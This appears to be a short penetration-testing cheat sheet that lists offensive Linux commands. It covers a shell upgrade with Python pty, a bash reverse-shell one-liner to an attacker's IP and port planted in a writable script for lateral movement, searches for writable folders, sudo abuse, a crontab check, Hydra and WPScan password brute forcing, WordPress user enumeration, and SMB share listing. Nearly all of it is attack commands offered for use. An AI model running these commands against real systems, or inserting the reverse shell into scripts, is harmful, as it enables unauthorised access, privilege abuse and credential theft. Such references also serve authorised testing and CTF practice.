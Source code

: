 Once you have a reverse shell on a machine with python (or python3) available, you can try running these commands to upgrade the shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Lateral Movement

### Hijacking a writable script
if the victim runs this, a shell with their privileges is generated. (assuming the attacker is listening at `IP:PORT`)
```bash
bash -i &>/dev/tcp/<IP>/<PORT> 0>&1
```

## Enumerate Writable Folders
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`

## List current user's sudo permissions
`sudo -l`

## Run a command as a different user with sudo (if permitted)
`sudo -u <user> <command>`

## Hydra Password Brute Force

`hydra -l username -p passwordlist.txt <target>`

## See running crobjobs
`cat /etc/crontab`

## Wordpress Scans

### Enumerates Users

`wpscan --url <ip>/<directory> -e u`

### Brute Forces Passwords

`wpscan --url <ip>/<directory> --passwords <password_list> --username <user>`

## SMB Commands

### List Network Shares

`smbclient -L <ip>`
